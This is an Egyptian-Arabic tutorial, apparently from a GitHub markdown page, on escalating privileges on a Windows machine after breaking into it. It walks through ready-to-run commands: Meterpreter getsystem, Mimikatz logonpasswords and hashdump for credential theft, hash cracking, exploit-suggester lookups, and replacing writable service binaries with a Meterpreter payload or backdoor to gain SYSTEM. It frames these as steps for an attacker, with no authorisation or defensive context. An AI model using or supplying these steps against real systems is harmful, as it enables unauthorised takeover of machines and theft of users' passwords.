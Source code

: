 هناخد **Privilege Escalation** من البداية **لحد ما تبقى فاهمه كويس جدًا**، وتعرف إزاي **تتحول من مستخدم عادي لـ Administrator أو حتى SYSTEM** بعد الاختراق.

---

# **🔹 Privilege Escalation بعد الاختراق الأولي 🔹**

## **📌 يعني إيه Privilege Escalation؟**

✅ لما بتخترق جهاز، غالبًا بتدخل بصلاحيات **مستخدم عادي (Limited User)**، ومش هتقدر تتحكم في كل حاجة.  
✅ عشان تاخد **تحكم كامل (Admin أو SYSTEM)**، لازم تلاقي **طريقة لترقية الصلاحيات**.  
✅ فيه طريقتين رئيسيتين:

- **Horizontal Escalation:** تتحول لحساب مستخدم تاني بنفس المستوى.
- **Vertical Escalation:** ترفع صلاحياتك وتبقى **Admin أو SYSTEM**.  
    ✅ بنستخدم أدوات وتقنيات مختلفة لتحقيق ده، زي **استغلال ثغرات النظام، Misconfigurations، أو استخراج كلمات السر**.

---

## **🔥 الطرق الأساسية لرفع الامتيازات (Privilege Escalation)**

### **🟢 1. معرفة الصلاحيات الحالية**

📌 **قبل ما تعمل أي حاجة، لازم تعرف إنت شغال بصلاحيات إيه:**

```bash
whoami
```

🎯 **هتشوف اسم المستخدم الحالي**

📌 **لو عايز تعرف كل الجروبات والصلاحيات اللي عندك:**

```bash
whoami /priv
```

🎯 **هتعرف لو عندك صلاحيات تساعدك في الترقية**

📌 **لو على Meterpreter:**

```bash
meterpreter > getuid
```

🎯 **هيعرض اسم المستخدم الحالي**

📌 **لو عايز تشوف حسابات المستخدمين التانية:**

```bash
net user
```

🎯 **هتعرف مين موجود على الجهاز ومين الـ Admins**

---

### **🟢 2. استخدام GetSystem لرفع الصلاحيات تلقائيًا**

📌 **لو عندك Meterpreter، جرب ترفع صلاحياتك تلقائيًا كده:**

```bash
meterpreter > getsystem
```

🎯 **لو نجح، هتبقى `NT AUTHORITY\SYSTEM`، وده أقوى مستوى صلاحيات على الويندوز!**

📌 **لو الطريقة فشلت، جرب استخدام الـ Exploits يدويًا.**

---

### **🟢 3. استغلال ثغرات النظام (Kernel Exploits)**

📌 **لو النظام مش محدث، ممكن تلاقي ثغرة تساعدك في رفع الصلاحيات. جرب تبحث عن الثغرات المتاحة:**

```bash
systeminfo
```

🎯 **هتشوف إصدار الويندوز والتحديثات اللي عليه**

📌 **استخدم `Windows Exploit Suggester` لمعرفة الثغرات اللي ممكن تستغلها:**

```bash
python windows-exploit-suggester.py --database exploits.csv --systeminfo systeminfo.txt
```

🎯 **لو لقيت ثغرة مناسبة، نفذ الـ Exploit المناسب لرفع الصلاحيات**

---

### **🟢 4. استخراج كلمات المرور من النظام**

📌 **لو تقدر تجيب كلمات السر، ممكن تلاقي حساب Admin تستخدمه بدل ما ترفع الصلاحيات مباشرة. جرب تستخدم Mimikatz كده:**

```bash
meterpreter > load mimikatz
meterpreter > mimikatz_command -f "privilege::debug"
meterpreter > mimikatz_command -f "sekurlsa::logonpasswords"
```

🎯 **هتلاقي كلمات السر مخزنة لو الجهاز مش محمي كويس**

📌 **ممكن تستخدم `hashdump` لاستخراج الهاشات:**

```bash
meterpreter > hashdump
```

🎯 **هتقدر تستخدم `John The Ripper` أو `hashcat` لكسر التشفير**

---

### **🟢 5. استغلال Misconfigurations**

📌 **لو الحساب العادي عنده صلاحيات يغير الملفات في أماكن حساسة، ممكن تستغل ده لرفع الصلاحيات. جرب تشوف الصلاحيات كده:**

```bash
icacls C:\Windows\System32
```

🎯 **لو تقدر تعدّل ملفات النظام، ممكن تزرع Backdoor وتنفذه بصلاحيات عالية**

📌 **جرب تبحث عن خدمات (Services) بتشتغل بصلاحيات Admin وتقدر تعدّل عليها:**

```bash
wmic service get name,pathname,startmode
```

🎯 **لو لقيت خدمة بتشغل ملف قابل للتعديل، استبدله ببايلود Meterpreter وابدأ الجلسة من جديد بصلاحيات SYSTEM!**

---

### **🟢 6. تشغيل PowerShell بصلاحيات عالية**

📌 **لو تقدر تفتح PowerShell، جرب تنفذ ده:**

```powershell
Start-Process powershell -Verb runAs
```

🎯 **هيحاول يفتح PowerShell بصلاحيات أعلى**

📌 **لو معاك حساب Admin، جرب تسجل دخول بصلاحياته:**

```bash
runas /user:Administrator cmd.exe
```

🎯 **لو عندك الباسورد، هتفتح CMD بصلاحيات Admin**

---

# **💡 الخلاصة بالمصري:**

1️⃣ **أول حاجة، لازم تعرف إنت بصلاحيات إيه (`whoami` و `whoami /priv`)**  
2️⃣ **جرب `getsystem` على Meterpreter، لو نفع تبقى وصلت لـ SYSTEM!**  
3️⃣ **لو النظام قديم، شوف الثغرات (`systeminfo`) واستخدم Windows Exploit Suggester**  
4️⃣ **حاول تسرق كلمات السر (`mimikatz` أو `hashdump`)، ممكن تلاقي حساب Admin جاهز**  
5️⃣ **لو عندك صلاحيات على ملفات حساسة (`icacls` و `wmic service`)، استغلها وعدّل على الخدمات اللي بتشتغل بصلاحيات Admin**  
6️⃣ **جرب تشغل PowerShell أو CMD بصلاحيات أعلى (`runas /user:Administrator cmd.exe`)**

---

# **🛠️ خطوات عملية لترقية الصلاحيات:**

✅ **1. تحقق من الصلاحيات الحالية:**

```bash
whoami
whoami /priv
```

✅ **2. جرب `getsystem` لو معاك Meterpreter:**

```bash
meterpreter > getsystem
```

✅ **3. اكتشف الثغرات الممكنة:**

```bash
systeminfo
python windows-exploit-suggester.py --database exploits.csv --systeminfo systeminfo.txt
```

✅ **4. حاول استخراج كلمات السر باستخدام `mimikatz`:**

```bash
meterpreter > load mimikatz
meterpreter > mimikatz_command -f "sekurlsa::logonpasswords"
```

✅ **5. ابحث عن Misconfigurations:**

```bash
icacls C:\Windows\System32
wmic service get name,pathname,startmode
```

✅ **6. جرب تشغيل PowerShell أو CMD بصلاحيات أعلى:**

```powershell
Start-Process powershell -Verb runAs
runas /user:Administrator cmd.exe
```

🎯 **لو مشيت بالخطوات دي، فرصتك في رفع الصلاحيات هتزيد جدًا، وهتقدر تتحكم في الجهاز بالكامل!** 🚀🔥